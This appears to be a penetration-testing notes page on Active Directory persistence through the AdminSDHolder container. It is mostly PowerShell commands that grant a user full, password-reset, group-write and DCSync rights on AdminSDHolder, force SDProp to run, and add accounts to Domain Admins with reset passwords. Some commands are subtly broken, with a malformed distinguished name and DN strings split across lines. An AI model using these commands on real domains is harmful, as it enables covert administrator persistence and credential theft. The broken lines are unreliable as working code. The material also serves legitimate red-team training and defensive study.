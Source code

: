 # AdminSDHolder

AdminSDHolder is a system container that used to control permissions.\
These permissions are used as a template for protected accounts to prevent modifications to them. \\

**Security Descriptor Propagator** (SDPROP) runs every 60 minutes.\
SDPROP compares between the ACL of the protected groups and members and the ACL of **AdminSDHolder**, then any differences are overwritten on the ACL Object.

## Exploitation

An attacker can utilize SDROP mechinsem by adding a user with GenericAll privileges\
to theAdminSD Holder object. When the SDPROP runs (every 60 minutes) the user will be add with elevated privileges. Adding user to the AdminSDHolder object.

{% code overflow="wrap" %}
```powershell
# Full privs
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Reset Password priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Write Members priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# DC Sync priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
{% endcode %}

Use tool called [RACE ](https://github.com/samratashok/RACE)to add the privileges easily through commandline.

Run SDProp mannually. If GUI access is availabe, the above privileges can be added easily through GUI.

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

# pre-Server 2008 machines
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

## Abusing rights

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Add user to DA group
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

# Reset Password
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
# Add user to DA group
Add-ADGroupMember -Identity 'Domain Admins' -Members testda

# Reset Password
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
{% endtab %}
{% endtabs %}
